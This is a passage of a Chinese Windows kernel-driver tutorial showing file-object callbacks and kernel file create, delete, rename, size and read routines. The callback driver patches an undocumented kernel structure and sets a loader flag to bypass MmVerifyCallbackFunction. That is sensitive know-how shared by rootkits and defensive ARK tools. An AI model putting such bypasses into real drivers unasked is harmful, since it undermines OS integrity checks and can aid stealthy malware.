            /*0x002*/             UINT8        UnnamedObjectsOnly : 1;                                                                                                                                // 1 BitPosition
            /*0x002*/             UINT8        UseDefaultObject : 1;                                                                                                                                  // 2 BitPosition
            /*0x002*/             UINT8        SecurityRequired : 1;                                                                                                                                  // 3 BitPosition
            /*0x002*/             UINT8        MaintainHandleCount : 1;                                                                                                                               // 4 BitPosition
            /*0x002*/             UINT8        MaintainTypeList : 1;                                                                                                                                  // 5 BitPosition
            /*0x002*/             UINT8        SupportsObjectCallbacks : 1;                                                                                                                           // 6 BitPosition
        };
    };
    /*0x004*/     ULONG32      ObjectTypeCode;
    /*0x008*/     ULONG32      InvalidAttributes;
    /*0x00C*/     struct _GENERIC_MAPPING GenericMapping;                                                                                                                                     // 4 elements, 0x10 bytes (sizeof)
    /*0x01C*/     ULONG32      ValidAccessMask;
    /*0x020*/     ULONG32      RetainAccess;
    /*0x024*/     enum _POOL_TYPE PoolType;
    /*0x028*/     ULONG32      DefaultPagedPoolCharge;
    /*0x02C*/     ULONG32      DefaultNonPagedPoolCharge;
    /*0x030*/     PVOID DumpProcedure;
    /*0x038*/     PVOID OpenProcedure;
    /*0x040*/     PVOID CloseProcedure;
    /*0x048*/     PVOID DeleteProcedure;
    /*0x050*/     PVOID ParseProcedure;
    /*0x058*/     PVOID SecurityProcedure;
    /*0x060*/     PVOID QueryNameProcedure;
    /*0x068*/     PVOID OkayToCloseProcedure;
}OBJECT_TYPE_INITIALIZER, *POBJECT_TYPE_INITIALIZER;

typedef struct _EX_PUSH_LOCK                 // 7 elements, 0x8 bytes (sizeof)
{
    union                                    // 3 elements, 0x8 bytes (sizeof)
    {
        struct                               // 5 elements, 0x8 bytes (sizeof)
        {
            /*0x000*/             UINT64       Locked : 1;         // 0 BitPosition
            /*0x000*/             UINT64       Waiting : 1;        // 1 BitPosition
            /*0x000*/             UINT64       Waking : 1;         // 2 BitPosition
            /*0x000*/             UINT64       MultipleShared : 1; // 3 BitPosition
            /*0x000*/             UINT64       Shared : 60;        // 4 BitPosition
        };
        /*0x000*/         UINT64       Value;
        /*0x000*/         VOID*        Ptr;
    };
}EX_PUSH_LOCK, *PEX_PUSH_LOCK;

typedef struct _MY_OBJECT_TYPE                   // 12 elements, 0xD0 bytes (sizeof)
{
    /*0x000*/     struct _LIST_ENTRY TypeList;              // 2 elements, 0x10 bytes (sizeof)
    /*0x010*/     struct _UNICODE_STRING Name;              // 3 elements, 0x10 bytes (sizeof)
    /*0x020*/     VOID*        DefaultObject;
    /*0x028*/     UINT8        Index;
    /*0x029*/     UINT8        _PADDING0_[0x3];
    /*0x02C*/     ULONG32      TotalNumberOfObjects;
    /*0x030*/     ULONG32      TotalNumberOfHandles;
    /*0x034*/     ULONG32      HighWaterNumberOfObjects;
    /*0x038*/     ULONG32      HighWaterNumberOfHandles;
    /*0x03C*/     UINT8        _PADDING1_[0x4];
    /*0x040*/     struct _OBJECT_TYPE_INITIALIZER TypeInfo; // 25 elements, 0x70 bytes (sizeof)
    /*0x0B0*/     struct _EX_PUSH_LOCK TypeLock;            // 7 elements, 0x8 bytes (sizeof)
    /*0x0B8*/     ULONG32      Key;
    /*0x0BC*/     UINT8        _PADDING2_[0x4];
    /*0x0C0*/     struct _LIST_ENTRY CallbackList;          // 2 elements, 0x10 bytes (sizeof)
}MY_OBJECT_TYPE, *PMY_OBJECT_TYPE;
```
对于开启了`TypeInfo.SupportsObjectCallbacks`属性的驱动来说自然就支持文件路径转换，当系统中有文件被加载则自动执行`LySharkFileObjectpreCall`回调事件，过滤掉无效路径后即可直接输出，完整代码如下所示；
```c
#include "lyshark.h"

PVOID obHandle;
DRIVER_INITIALIZE DriverEntry;

// 文件回调
OB_PREOP_CALLBACK_STATUS LySharkFileObjectpreCall(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION OperationInformation)
{
    UNICODE_STRING DosName;
    PFILE_OBJECT fileo = OperationInformation->Object;
    HANDLE CurrentProcessId = PsGetCurrentProcessId();
    UNREFERENCED_PARAMETER(RegistrationContext);

    if (OperationInformation->ObjectType != *IoFileObjectType)
    {
        return OB_PREOP_SUCCESS;
    }

    // 过滤无效指针
    if (fileo->FileName.Buffer == NULL || 
        !MmIsAddressValid(fileo->FileName.Buffer) || 
        fileo->DeviceObject == NULL || 
        !MmIsAddressValid(fileo->DeviceObject))
    {
        return OB_PREOP_SUCCESS;
    }

    // 过滤无效路径
    if (!_wcsicmp(fileo->FileName.Buffer, L"\\Endpoint") || 
        !_wcsicmp(fileo->FileName.Buffer, L"?") || 
        !_wcsicmp(fileo->FileName.Buffer, L"\\.\\.") || 
        !_wcsicmp(fileo->FileName.Buffer, L"\\"))
    {
        return OB_PREOP_SUCCESS;
    }

    // 将对象转为DOS路径
    RtlVolumeDeviceToDosName(fileo->DeviceObject, &DosName);
    DbgPrint("[LyShark] 进程PID = %ld | 文件路径 = %wZ%wZ \n", (ULONG64)CurrentProcessId, &DosName, &fileo->FileName);

    return OB_PREOP_SUCCESS;
}

VOID EnableObType(POBJECT_TYPE ObjectType)
{
    PMY_OBJECT_TYPE myobtype = (PMY_OBJECT_TYPE)ObjectType;
    myobtype->TypeInfo.SupportsObjectCallbacks = 1;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    UNREFERENCED_PARAMETER(driver);
    ObUnRegisterCallbacks(obHandle);
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status = STATUS_SUCCESS;
    PLDR_DATA ldr;

    DbgPrint("hello lyshark.com \n");

    OB_CALLBACK_REGISTRATION obRegFileCallBack;
    OB_OPERATION_REGISTRATION opRegFileCallBack;

    // enable IoFileObjectType
    EnableObType(*IoFileObjectType);

    // bypass MmVerifyCallbackFunction
    ldr = (PLDR_DATA)Driver->DriverSection;
    ldr->Flags |= 0x20;

    // 初始化回调
    memset(&obRegFileCallBack, 0, sizeof(obRegFileCallBack));
    obRegFileCallBack.Version = ObGetFilterVersion();
    obRegFileCallBack.OperationRegistrationCount = 1;
    obRegFileCallBack.RegistrationContext = NULL;
    RtlInitUnicodeString(&obRegFileCallBack.Altitude, L"321000");
    obRegFileCallBack.OperationRegistration = &opRegFileCallBack;

    memset(&opRegFileCallBack, 0, sizeof(opRegFileCallBack));
    opRegFileCallBack.ObjectType = IoFileObjectType;
    opRegFileCallBack.Operations = OB_OPERATION_HANDLE_CREATE | OB_OPERATION_HANDLE_DUPLICATE;
    opRegFileCallBack.PreOperation = (POB_PRE_OPERATION_CALLBACK)&LySharkFileObjectpreCall;

    status = ObRegisterCallbacks(&obRegFileCallBack, &obHandle);
    if (!NT_SUCCESS(status))
    {
        DbgPrint("注册回调错误 \n");
        status = STATUS_UNSUCCESSFUL;
    }

    UNREFERENCED_PARAMETER(RegistryPath);
    Driver->DriverUnload = &UnDriver;
    return status;
}
```
运行这个驱动程序，当系统中有新文件被加载时则自动输出该文件所属进程PID以及该文件的详细路径。



至于如何阻止打开一个文件其实与`《内核注册并监控对象回调》`文章中使用的方法是一致的，首先判断`OperationInformation->Operation`是不是`OB_OPERATION_HANDLE_CREATE`或`OB_OPERATION_HANDLE_DUPLICATE`如果是，则直接设置`Parameters->CreateHandleInformation.DesiredAccess`为0直接拒绝加载。
```c
// 文件回调
OB_PREOP_CALLBACK_STATUS LySharkFileObjectpreCall(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION OperationInformation)
{
    UNICODE_STRING DosName;
    PFILE_OBJECT fileo = OperationInformation->Object;
    HANDLE CurrentProcessId = PsGetCurrentProcessId();
    UNREFERENCED_PARAMETER(RegistrationContext);

    if (OperationInformation->ObjectType != *IoFileObjectType)
    {
        return OB_PREOP_SUCCESS;
    }

    // 过滤无效指针
    if (fileo->FileName.Buffer == NULL || 
        !MmIsAddressValid(fileo->FileName.Buffer) || 
        fileo->DeviceObject == NULL || 
        !MmIsAddressValid(fileo->DeviceObject))
    {
        return OB_PREOP_SUCCESS;
    }

    // 过滤无效路径
    if (!_wcsicmp(fileo->FileName.Buffer, L"\\Endpoint") || 
        !_wcsicmp(fileo->FileName.Buffer, L"?") || 
        !_wcsicmp(fileo->FileName.Buffer, L"\\.\\.") || 
        !_wcsicmp(fileo->FileName.Buffer, L"\\"))
    {
        return OB_PREOP_SUCCESS;
    }

    // 阻止打开lyshark_com.txt文本
    if (wcsstr(_wcslwr(fileo->FileName.Buffer), L"lyshark_com.txt"))
    {
        if (OperationInformation->Operation == OB_OPERATION_HANDLE_CREATE)
        {
            OperationInformation->Parameters->CreateHandleInformation.DesiredAccess = 0;
        }
        if (OperationInformation->Operation == OB_OPERATION_HANDLE_DUPLICATE)
        {
            OperationInformation->Parameters->DuplicateHandleInformation.DesiredAccess = 0;
        }
        DbgPrint("[LyShark] 已拦截 lyshark_com 文件打开 \n");
    }

    return OB_PREOP_SUCCESS;
}
```

运行修改后的驱动程序，然后尝试打开`lyshark_com.txt`则会提示系统找不到指定文件。




## 第八篇：内核文件与注册表

本章将介绍内核中文件与注册表读写的相关操作，其中包括内核文件读写系列函数的使用说明、内核解锁与强制删除文件、文件和目录的遍历以及文件微过滤驱动的基本使用技巧等。

同时，我们也将深入讨论内核注册表的增删改查操作。对于驱动开发人员来说，了解内核文件与注册表的读写操作是非常重要的，因为这些操作涉及到系统的核心部分，对系统的稳定性和安全性都具有重要的影响。在本章中，我们将介绍文件读写的基本概念和常见的操作方法，以及如何解锁和强制删除文件。

此外，我们还将深入讨论如何遍历文件和目录，以及文件微过滤驱动的基本使用技巧，帮助读者了解如何在内核中实现高效、可靠的文件读写和微过滤操作。

最后，我们将介绍内核注册表的增删改查操作，帮助读者掌握如何在内核中进行注册表操作，以及如何保证操作的安全性和可靠性。通过本章的学习，读者将能够深入了解内核文件与注册表的读写操作，并掌握实际的操作技巧，为后续的驱动开发工作打下坚实的基础。

### 8.1 内核文件读写系列函数

在应用层下的文件操作只需要调用微软应用层下的`API`函数及`C库`标准函数即可，而如果在内核中读写文件则应用层的API显然是无法被使用的，内核层需要使用内核专有API，某些应用层下的API只需要增加Zw开头即可在内核中使用，例如本章要讲解的文件与目录操作相关函数，多数ARK反内核工具都具有对文件的管理功能，实现对文件或目录的基本操作功能也是非常有必要的。

首先无论在内核态还是在用户态，我们调用的文件操作函数其最终都会转换为一个IRP请求，并发送到文件系统驱动上的`IRP_MJ_READ`派遣函数里面，这个读写流程大体上可分为如下四步；

 - 对于FAT32分区会默认分发到`FASTFAT.SYS`，而相对于NTFS分区则会分发到`NTFS.SYS`驱动上。
 - 文件系统驱动经过处理后，就把IRP传给磁盘类驱动的`IRP_MJ_READ`分发函数处理，当磁盘类驱动处理完毕后,又把IRP传给磁盘小端口驱动。
 - 在磁盘小端口驱动里，无论是读还是写，用的都是`IRP_MJ_SCSI`这个分发函数。
 - IRP被磁盘小端口驱动处理完之后，就要依靠`HAL.DLL`进行端口IO，此时数据就真的从硬盘里读取了出来。

#### 8.1.1 创建文件或目录

实现创建文件或目录，创建文件或目录都可调用`ZwCreateFile()`这个内核函数来实现，唯一不同的区别在于当用户传入参数中包含有`FILE_SYNCHRONOUS_IO_NONALERT`属性时则会默认创建文件，而如果包含有`FILE_DIRECTORY_FILE`属性则默认为创建目录，该函数的微软定义以及备注信息如下所示；
```c
NTSYSAPI NTSTATUS ZwCreateFile(
  [out]          PHANDLE            FileHandle,        // 指向HANDLE变量的指针，该变量接收文件的句柄。
  [in]           ACCESS_MASK        DesiredAccess,     // 指定一个ACCESS_MASK值，该值确定对对象的请求访问权限。
  [in]           POBJECT_ATTRIBUTES ObjectAttributes,  // 指向OBJECT_ATTRIBUTES结构的指针，该结构指定对象名称和其他属性。
  [out]          PIO_STATUS_BLOCK   IoStatusBlock,     // 指向IO_STATUS_BLOCK结构的指针，该结构接收最终完成状态和有关所请求操作的其他信息。 
  [in, optional] PLARGE_INTEGER     AllocationSize,    // 指向LARGE_INTEGER的指针，其中包含创建或覆盖的文件的初始分配大小（以字节为单位）。
  [in]           ULONG              FileAttributes,    // 指定一个或多个FILE_ATTRIBUTE_XXX标志，这些标志表示在创建或覆盖文件时要设置的文件属性。
  [in]           ULONG              ShareAccess,       // 共享访问的类型，指定为零或以下标志的任意组合。
  [in]           ULONG              CreateDisposition, // 指定在文件存在或不存在时要执行的操作。
  [in]           ULONG              CreateOptions,     // 指定要在驱动程序创建或打开文件时应用的选项。
  [in, optional] PVOID              EaBuffer,          // 对于设备和中间驱动程序，此参数必须是NULL指针。
  [in]           ULONG              EaLength           // 对于设备和中间驱动程序，此参数必须为零。
);
```

参数`DesiredAccess`用于指明对象访问权限的，常用的权限有`FILE_READ_DATA`读取文件，`FILE_WRITE_DATA`写入文件，`FILE_APPEND_DATA`追加文件，`FILE_READ_ATTRIBUTES`读取文件属性，以及`FILE_WRITE_ATTRIBUTES`写入文件属性。

参数`ObjectAttributes`指向了一个`OBJECT_ATTRIBUTES`指针，通常会通过`InitializeObjectAttributes()`宏对其进行初始化，当一个例程打开对象时由此结构体指定目标对象的属性。

参数`ShareAccess`用于指定访问属性，通常属性有`FILE_SHARE_READ`读取，`FILE_SHARE_WRITE`写入，`FILE_SHARE_DELETE`删除。

参数`CreateDisposition`用于指定在文件存在或不存在时要执行的操作，一般而言我们会指定为`FILE_OPEN_IF`打开文件，或`FILE_OVERWRITE_IF`打开文件并覆盖，`FILE_SUPERSEDE`替换文件。

参数`CreateOptions`用于指定创建文件或目录，一般`FILE_SYNCHRONOUS_IO_NONALERT`代表创建文件，参数`FILE_DIRECTORY_FILE`代表创建目录。

相对于创建文件而言删除文件或目录只需要调用`ZwDeleteFile()`系列函数即可，此类函数只需要传递一个`OBJECT_ATTRIBUTES`参数即可，其微软定义如下所示；
```c
NTSYSAPI NTSTATUS ZwDeleteFile(
  [in] POBJECT_ATTRIBUTES ObjectAttributes
);
```
接下来我们就封装三个函数`MyCreateFile()`用于创建文件，`MyCreateFileFolder()`用于创建目录，`MyDeleteFileOrFileFolder()`用于删除空目录。
```c
#include <ntifs.h>
#include <ntstrsafe.h>

// 创建文件
BOOLEAN MyCreateFile(UNICODE_STRING ustrFilePath)
{
    HANDLE hFile = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    // 初始化对象属性结构体 FILE_SYNCHRONOUS_IO_NONALERT
    InitializeObjectAttributes(&objectAttributes, &ustrFilePath, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 创建文件
    status = ZwCreateFile(&hFile, GENERIC_READ, &objectAttributes, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, 0, FILE_OPEN_IF, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    // 关闭句柄
    ZwClose(hFile);

    return TRUE;
}

// 创建目录
BOOLEAN MyCreateFileFolder(UNICODE_STRING ustrFileFolderPath)
{
    HANDLE hFile = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    // 初始化对象属性结构体
    InitializeObjectAttributes(&objectAttributes, &ustrFileFolderPath, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 创建目录 FILE_DIRECTORY_FILE
    status = ZwCreateFile(&hFile, GENERIC_READ, &objectAttributes, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, 0, FILE_CREATE, FILE_DIRECTORY_FILE, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }
    // 关闭句柄
    ZwClose(hFile);

    return TRUE;
}

// 删除文件或是空目录
BOOLEAN MyDeleteFileOrFileFolder(UNICODE_STRING ustrFileName)
{
    NTSTATUS status = STATUS_SUCCESS;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };

    // 初始化属性
    InitializeObjectAttributes(&objectAttributes, &ustrFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 执行删除操作
    status = ZwDeleteFile(&objectAttributes);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    BOOLEAN ref = FALSE;

    // 删除文件
    UNICODE_STRING ustrDeleteFile;
    RtlInitUnicodeString(&ustrDeleteFile, L"\\??\\C:\\LySharkFolder\\lyshark.txt");
    ref = MyDeleteFileOrFileFolder(ustrDeleteFile);
    if (ref != FALSE)
    {
        DbgPrint("[LyShark] 删除文件成功 \n");
    }
    else
    {
        DbgPrint("[LyShark] 删除文件失败 \n");
    }

    // 删除空目录
    UNICODE_STRING ustrDeleteFilder;
    RtlInitUnicodeString(&ustrDeleteFilder, L"\\??\\C:\\LySharkFolder");
    ref = MyDeleteFileOrFileFolder(ustrDeleteFilder);
    if (ref != FALSE)
    {
        DbgPrint("[LyShark] 删除空目录成功 \n");
    }
    else
    {
        DbgPrint("[LyShark] 删除空目录失败 \n");
    }

    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    BOOLEAN ref = FALSE;


    // 创建目录
    UNICODE_STRING ustrDirectory;
    RtlInitUnicodeString(&ustrDirectory, L"\\??\\C:\\LySharkFolder");
    ref = MyCreateFileFolder(ustrDirectory);
    if (ref != FALSE)
    {
        DbgPrint("[LyShark] 创建目录成功 \n");
    }
    else
    {
        DbgPrint("[LyShark] 创建文件失败 \n");
    }

    // 创建文件
    UNICODE_STRING ustrCreateFile;
    RtlInitUnicodeString(&ustrCreateFile, L"\\??\\C:\\LySharkFolder\\lyshark.txt");
    ref = MyCreateFile(ustrCreateFile);
    if (ref != FALSE)
    {
        DbgPrint("[LyShark] 创建文件成功 \n");
    }
    else
    {
        DbgPrint("[LyShark] 创建文件失败 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
运行如上代码，分别创建`LySharkFolder`目录，并在其中创建`lyshark.txt`最终再将其删除，输出效果如下；



#### 8.1.2 重命名文件或目录

在内核中重命名文件或目录核心功能的实现依赖于`ZwSetInformationFile()`这个内核函数，该函数可用于更改有关文件对象的各种信息，其微软官方定义如下；
```c
NTSYSAPI NTSTATUS ZwSetInformationFile(
  [in]  HANDLE                 FileHandle,          // 文件句柄
  [out] PIO_STATUS_BLOCK       IoStatusBlock,       // 指向 IO_STATUS_BLOCK 结构的指针
  [in]  PVOID                  FileInformation,     // 指向缓冲区的指针，该缓冲区包含要为文件设置的信息。
  [in]  ULONG                  Length,              // 缓冲区的大小（以字节为单位）
  [in]  FILE_INFORMATION_CLASS FileInformationClass // 为文件设置的类型
);
```
这其中最重要的参数就是`FileInformationClass`根据该参数的不同则对文件的操作方式也就不同，如果需要重命名文件则此处应使用`FileRenameInformation`而如果需要修改文件的当前信息则应使用`FilePositionInformation`创建链接文件则使用`FileLinkInformation`即可，以重命名为例，首先我们需要定义一个`FILE_RENAME_INFORMATION`结构并按照要求填充，最后直接使用`ZwSetInformationFile()`并传入相关信息后即可完成修改，其完整代码流程如下；
```c
#include <ntifs.h>
#include <ntstrsafe.h>

// 重命名文件或文件夹
BOOLEAN MyRename(UNICODE_STRING ustrSrcFileName, UNICODE_STRING ustrDestFileName)
{
    HANDLE hFile = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    PFILE_RENAME_INFORMATION pRenameInfo = NULL;

    ULONG ulLength = (1024 + sizeof(FILE_RENAME_INFORMATION));

    // 为PFILE_RENAME_INFORMATION结构申请内存
    pRenameInfo = (PFILE_RENAME_INFORMATION)ExAllocatePool(NonPagedPool, ulLength);
    if (NULL == pRenameInfo)
    {
        return FALSE;
    }

    // 设置重命名信息
    RtlZeroMemory(pRenameInfo, ulLength);

    // 设置文件名长度以及文件名
    pRenameInfo->FileNameLength = ustrDestFileName.Length;
    wcscpy(pRenameInfo->FileName, ustrDestFileName.Buffer);
    pRenameInfo->ReplaceIfExists = 0;
    pRenameInfo->RootDirectory = NULL;

    // 初始化结构
    InitializeObjectAttributes(&objectAttributes, &ustrSrcFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件
    status = ZwCreateFile(&hFile, SYNCHRONIZE | DELETE, &objectAttributes, &iosb, NULL, 0, FILE_SHARE_READ, FILE_OPEN, FILE_SYNCHRONOUS_IO_NONALERT | FILE_NO_INTERMEDIATE_BUFFERING, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        ExFreePool(pRenameInfo);
        return FALSE;
    }
    // 利用ZwSetInformationFile来设置文件信息
    status = ZwSetInformationFile(hFile, &iosb, pRenameInfo, ulLength, FileRenameInformation);
    if (!NT_SUCCESS(status))
    {
        ZwClose(hFile);
        ExFreePool(pRenameInfo);
        return FALSE;
    }

    // 释放内存,关闭句柄
    ExFreePool(pRenameInfo);
    ZwClose(hFile);

    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    // 重命名文件
    UNICODE_STRING ustrOldFile, ustrNewFile;
    RtlInitUnicodeString(&ustrOldFile, L"\\??\\C:\\MyCreateFolder\\lyshark.txt");
    RtlInitUnicodeString(&ustrNewFile, L"\\??\\C:\\MyCreateFolder\\hello_lyshark.txt");
    BOOLEAN ref = MyRename(ustrOldFile, ustrNewFile);
    if (ref == TRUE)
    {
        DbgPrint("已完成改名 \n");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
运行后将会把`C:\\MyCreateFolder\\lyshark.txt`目录下的文件改名为`hello_lyshark.txt`，前提是该目录与该文件必须存在；



那么如果你需要将文件设置为只读模式或修改文件的创建日期，那么你就需要看一下微软的定义`FILE_BASIC_INFORMATION`结构，依次填充此结构体并调用`ZwSetInformationFile()`即可实现修改，该结构的定义如下所示；
```c
typedef struct _FILE_BASIC_INFORMATION {
    LARGE_INTEGER CreationTime;
    LARGE_INTEGER LastAccessTime;
    LARGE_INTEGER LastWriteTime;
    LARGE_INTEGER ChangeTime;
    ULONG FileAttributes;
} FILE_BASIC_INFORMATION, *PFILE_BASIC_INFORMATION;
```
当然如果你要修改日期你还需要自行填充`LARGE_INTEGER`结构，该结构的微软定义如下所示，分为高位和低位依次填充即可；
```c
#if defined(MIDL_PASS)
typedef struct _LARGE_INTEGER {
#else // MIDL_PASS
typedef union _LARGE_INTEGER {
    struct {
        ULONG LowPart;
        LONG HighPart;
    } DUMMYSTRUCTNAME;
    struct {
        ULONG LowPart;
        LONG HighPart;
    } u;
#endif //MIDL_PASS
    LONGLONG QuadPart;
} LARGE_INTEGER;
```
我们就以修改文件属性为只读模式为例，其核心代码可以被描述为如下样子，相比于改名而言其唯一的变化就是更换了`PFILE_BASIC_INFORMATION`结构体，其他的基本一致；
```c
HANDLE hFile = NULL;
OBJECT_ATTRIBUTES objectAttributes = { 0 };
IO_STATUS_BLOCK iosb = { 0 };
NTSTATUS status = STATUS_SUCCESS;

PFILE_BASIC_INFORMATION pReplaceInfo = NULL;

ULONG ulLength = (1024 + sizeof(FILE_BASIC_INFORMATION));

// 为FILE_POSITION_INFORMATION结构申请内存
pReplaceInfo = (PFILE_BASIC_INFORMATION)ExAllocatePool(NonPagedPool, ulLength);
if (NULL == pReplaceInfo)
{
  return FALSE;
}

RtlZeroMemory(pReplaceInfo, ulLength);

// 设置文件基础信息,将文件设置为只读模式
pReplaceInfo->FileAttributes |= FILE_ATTRIBUTE_READONLY;
```

#### 8.1.3 读取文件大小

读取特定文件的所占空间，核心原理是调用了`ZwQueryInformationFile()`这个内核函数，该函数可以返回有关文件对象的各种信息，参数传递上与`ZwSetInformationFile()`很相似，其`FileInformationClass`都需要传入一个文件类型结构，该函数的完整定义如下；
```c
NTSYSAPI NTSTATUS ZwQueryInformationFile(
  [in]  HANDLE                 FileHandle,          // 文件句柄。
  [out] PIO_STATUS_BLOCK       IoStatusBlock,       // 指向接收最终完成状态和操作相关信息的 IO_STATUS_BLOCK 结构的指针。
  [out] PVOID                  FileInformation,     // 指向调用方分配的缓冲区的指针，例程将请求的有关文件对象的信息写入其中。
  [in]  ULONG                  Length,              // 长度。
  [in]  FILE_INFORMATION_CLASS FileInformationClass // 指定要在 FileInformation 指向的缓冲区中返回的有关文件的信息类型。
);
```
本例中我们需要读入文件的所占字节数，那么`FileInformation`字段就需要传入`FileStandardInformation`来获取文件的基本信息，获取到的信息会被存储到`FILE_STANDARD_INFORMATION`结构内，用户只需要解析该结构体`fsi.EndOfFile.QuadPart`即可得到文件长度，其完整代码如下所示；
```c
#include <ntifs.h>
#include <ntstrsafe.h>

// 获取文件大小
ULONG64 MyGetFileSize(UNICODE_STRING ustrFileName)
{
    HANDLE hFile = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    NTSTATUS status = STATUS_SUCCESS;
    FILE_STANDARD_INFORMATION fsi = { 0 };

    // 初始化结构
    InitializeObjectAttributes(&objectAttributes, &ustrFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件
    status = ZwCreateFile(&hFile, GENERIC_READ, &objectAttributes, &iosb, NULL, 0, FILE_SHARE_READ, FILE_OPEN, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return 0;
    }

    // 获取文件大小信息
    status = ZwQueryInformationFile(hFile, &iosb, &fsi, sizeof(FILE_STANDARD_INFORMATION), FileStandardInformation);
    if (!NT_SUCCESS(status))
    {
        ZwClose(hFile);
        return 0;
    }

    return fsi.EndOfFile.QuadPart;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    // 获取文件大小
    UNICODE_STRING ustrFileSize;
    RtlInitUnicodeString(&ustrFileSize, L"\\??\\C:\\lyshark.exe");
    ULONG64 ullFileSize = MyGetFileSize(ustrFileSize);
    DbgPrint("获取文件大小: %I64d Bytes \n", ullFileSize);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上程序，即可读取到C盘下的`lyshark.exe`程序的大小字节数，如下图所示；



#### 8.1.4 内核文件读写

内核读取文件可以使用`ZwReadFile()`，内核写入文件则可使用`ZwWriteFile()`，这两个函数的参数传递基本上一致，如下是读写两个函数的对比参数。
```c
NTSYSAPI NTSTATUS ZwReadFile(
  [in]           HANDLE           FileHandle,      // 文件对象的句柄。
  [in, optional] HANDLE           Event,           // （可选）事件对象的句柄，在读取操作完成后设置为信号状态。
  [in, optional] PIO_APC_ROUTINE  ApcRoutine,      // 此参数为保留参数。
  [in, optional] PVOID            ApcContext,      // 此参数为保留参数。
  [out]          PIO_STATUS_BLOCK IoStatusBlock,   // 接收实际从文件读取的字节数。
  [out]          PVOID            Buffer,          // 指向调用方分配的缓冲区的指针，该缓冲区接收从文件读取的数据。
  [in]           ULONG            Length,          // 缓冲区指向的缓冲区的大小（以字节为单位）。
  [in, optional] PLARGE_INTEGER   ByteOffset,      // 指定将开始读取操作的文件中的起始字节偏移量。
  [in, optional] PULONG           Key
);

NTSYSAPI NTSTATUS ZwWriteFile(
  [in]           HANDLE           FileHandle,
  [in, optional] HANDLE           Event,
  [in, optional] PIO_APC_ROUTINE  ApcRoutine,
  [in, optional] PVOID            ApcContext,
  [out]          PIO_STATUS_BLOCK IoStatusBlock,
  [in]           PVOID            Buffer,
  [in]           ULONG            Length,
  [in, optional] PLARGE_INTEGER   ByteOffset,
  [in, optional] PULONG           Key
);
```
读取文件的代码如下所示，分配非分页`pBuffer`内存，然后调用`MyReadFile()`函数，将数据读入到`pBuffer`并输出，完整代码如下所示；
```c
#include <ntifs.h>
#include <ntstrsafe.h>

// 读取文件数据
BOOLEAN MyReadFile(UNICODE_STRING ustrFileName, LARGE_INTEGER liOffset, PUCHAR pReadData, PULONG pulReadDataSize)
{
    HANDLE hFile = NULL;
    IO_STATUS_BLOCK iosb = { 0 };
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    // 初始化结构
    InitializeObjectAttributes(&objectAttributes, &ustrFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件
    status = ZwCreateFile(&hFile, GENERIC_READ, &objectAttributes, &iosb, NULL,FILE_ATTRIBUTE_NORMAL, FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_OPEN,FILE_NON_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    // 初始化
    RtlZeroMemory(&iosb, sizeof(iosb));

    // 读入文件
    status = ZwReadFile(hFile, NULL, NULL, NULL, &iosb, pReadData, *pulReadDataSize, &liOffset, NULL);
    if (!NT_SUCCESS(status))
    {
        *pulReadDataSize = iosb.Information;
        ZwClose(hFile);
        return FALSE;
    }

    // 获取实际读取的数据
    *pulReadDataSize = iosb.Information;

    // 关闭句柄
    ZwClose(hFile);

    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

